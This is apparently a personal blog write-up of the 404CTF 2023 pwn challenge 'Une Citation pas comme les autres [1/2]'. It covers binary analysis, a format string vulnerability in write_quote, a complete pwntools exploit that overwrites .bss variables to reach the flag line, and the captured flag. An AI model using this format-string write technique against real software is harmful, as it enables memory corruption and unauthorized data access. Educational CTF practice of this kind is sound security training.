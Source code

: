 ```yaml
---
title: CTFs | 404CTF2023 | Une Citation
author: Kaiba_404
date: 2023-06-05
categories: [CTFs, 404CTF2023, Une Citation1]
tags: [CTF, 404CTF2023, pwn]
permalink: /CTFs/404CTF2023/pwn/uneCitation1
---
```


# Une Citation pas comme les autres [1/2]


![citation_image](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/3b495da1-5e75-451e-adfb-e29bac5415e9)

> /bin n'est pas monté sur la machine à distance.

We have only one file for this challenge [une_citation_pas_comme_les_autres_1_2](https://github.com/CongKhaiNGUYEN/congkhainguyen.github.io/tree/main/_posts/CTFs/404CTF2023/pwn/files/une_citation_pas_comme_les_autres_1_2).

To gather more information about the binary file, we can use the following commands:

`file une_citation_pas_comme_les_autres_1_2`: This command provides details about the file's format, architecture, and other relevant information. It helps identify the type of binary file you are dealing with.

`checksec une_citation_pas_comme_les_autres_1_2`: This command checks the security features enabled in the binary file, such as Address Space Layout Randomization (ASLR), Stack Canary, and other protections. It helps assess the level of security measures implemented in the binary.

By executing these commands and providing the name of the binary file, we can obtain more information about its format, security features, and potential vulnerabilities.

```shell
┌──(kali㉿kali)-[~]
└─$ file une_citation_pas_comme_les_autres_1_2 
une_citation_pas_comme_les_autres_1_2: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, BuildID[sha1]=8dc288d4fcf863f23a2d6094765775bb3c4330d3, for GNU/Linux 4.4.0, not stripped
                                                                                                    
┌──(kali㉿kali)-[~]
└─$ checksec une_citation_pas_comme_les_autres_1_2 
[*] '~/une_citation_pas_comme_les_autres_1_2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Based on the information provided, it appears that certain exploitation methods can be eliminated based on the characteristics of the binary file:

**Ret2Lib (Return-to-Libc)**: This method relies on the presence of dynamic linking with a libc library. Since the binary is statically linked and does not have access to a libc library, the Ret2Lib technique is not applicable.

**Ret2Syscall (Return-to-Syscall)**: This method involves redirecting the execution flow to invoke specific system calls. However, if the binary does not allow for shell access, the Ret2Syscall technique cannot be used.

Considering these constraints, alternative exploitation techniques may need to be explored to exploit the vulnerability and progress further in the challenge.

## Analysis the binary file

Let's begin with Ghidra:

**Function main()**

![citation_main_1](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/8c9d56ee-09a1-4882-99cd-504547ea4100)

![citation_main_2](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/a3fa6bc2-9677-4f27-b5c6-ceec796eb1ab)


As the pictures show, main function gives us three choices and they will call three different functions. Let's look at the other functions that were called in main

**count_quote**

![count_quote](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/f6f402b5-bea3-4538-ad54-e123fe6436c2)

Based on the picture, it appears that the function is deliberately designed to be a joke! Instead of returning the number of quotes as expected, it simply returns a random number. 

**pick_quote**
![pick_quote](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/f9bdb6c5-6e5f-4d5f-9c17-c5051f066da9)

![num_quote_chosen_index](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/a3f66bc4-f9ee-4450-bac1-c24088fe453a)

This function performs the following steps:

1. Opens the file citations.txt.
2. Reads the content of the file line by line.
3. Checks the values of the variables chosen_index and num_quotes.0, which are located statically in the .bss segment of the program.
4. If num_quotes.0 is equal to 0, it enters a loop to count the number of citations inside citations.txt and stores the count in num_quotes.0.
5. If num_quotes.0 is greater than 0, it randomly selects chosen_index using the expression chosen_index = iVar1 % (num_quotes.0 - 1). Note that chosen_index cannot be equal to num_quotes.0 due to this line.
6. Based on the logic provided, it is inferred that the flag is located in the last line of the citations.txt file.

It seems that the function is responsible for reading and processing the contents of citations.txt, determining the number of citations, and selecting a random index to access one of the citations. If we don't do something 'unusual' we will never read the last line of the citations.txt file. This suggests to me that the flag is at the end of the file.


**write_quote**

![write_quotes_vuln](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/a94d75df-f729-4263-9e31-d072c8d87c01)

And voila, we have a format string vulnerability inside the write_quote function. But how can we using this vuln for getting the flag?

## Exploitation


The only function that lets us read the file now is the `pick_quote` function. So we need to exploit this function (make it behave erratically, of course). So how to make it act abnormally?

Upon closer examination of the file, it becomes evident that it lacks Position Independent Execution (PIE), and the variables num_quotes.0 and chosen_index are situated in the .bss section. This implies that we have the potential to manipulate these values using format strings!

Note that the `if` condition in the code only evaluates the cases where `num_quotes.0` is equal to 0 or greater than 0. This indicates that we have the ability to modify its value by using a negative number, represented in hexadecimal form. By determining the appropriate hexadecimal value, we can manipulate `chosen_index` and gain the flexibility to read quotes from any line in the citations.txt file.

```python
# write chosen_value (that we want), into chosen_index
payload2 = fmtstr_payload(6, {0x4be130:chosen_value}, write_size='int')

# write 0xffffffff (-1) into num_quotes.0
payload = fmtstr_payload(6, {0x4be134:0xffff},write_size='byte')
p.sendlineafter(b'>>> ',b'2')
p.recvuntil(b"[Vous] :")
p.sendline(payload)

payload = fmtstr_payload(6, {0x4be136:0xffff},write_size='byte')
p.sendlineafter(b'>>> ',b'2')
p.recvuntil(b"[Vous] :")
p.sendline(payload)

```

If we know the number of citations contained in the `citations.txt` file we can read directly from it, however this seems impossible. So I did it manually (when `chosen_index` has a value greater than the number of quotes in the file, the server will send an empty string) searching many times I found the number of quotes in the file is `0x139c4`

**The complete code:**

```python

from pwn import *
context.clear(arch='amd64',os='linux')
# p = process("./une_citation_pas_comme_les_autres_1_2")
p = remote("challenges.404ctf.fr", 31719)


###################################################################################

#  write chosen_value (0x139c4), into chosen_index
payload2 = fmtstr_payload(6, {0x4be130:0x139c4}, write_size='int')
p.sendlineafter(b'>>> ',b'1')
p.sendlineafter(b'>>> ',b'2')
p.recvuntil(b"[Vous] :")
p.sendline(payload2)

# write 0xffffffff (-1) into num_quotes.0
payload = fmtstr_payload(6, {0x4be134:0xffff},write_size='byte')
p.sendlineafter(b'>>> ',b'2')
p.recvuntil(b"[Vous] :")
p.sendline(payload)

payload = fmtstr_payload(6, {0x4be136:0xffff},write_size='byte')

p.sendlineafter(b'>>> ',b'2')
p.recvuntil(b"[Vous] :")
p.sendline(payload)

###################################################################################


p.sendlineafter(b'>>> ',b'1')

print(p.recv().decode())
p.close()


```
**Result**

```shell
$ python3 read_nom.py 
[+] Opening connection to challenges.404ctf.fr on port 31719: Done
404CTF{3H_813N!0U1_C357_M0N_V1C3.D3P141r3_357_M0N_P14151r.J41M3_QU0N_M3_H41553}

[*] Closed connection to challenges.404ctf.fr port 31719

```

**Flag:** `404CTF{3H_813N!0U1_C357_M0N_V1C3.D3P141r3_357_M0N_P14151r.J41M3_QU0N_M3_H41553}`
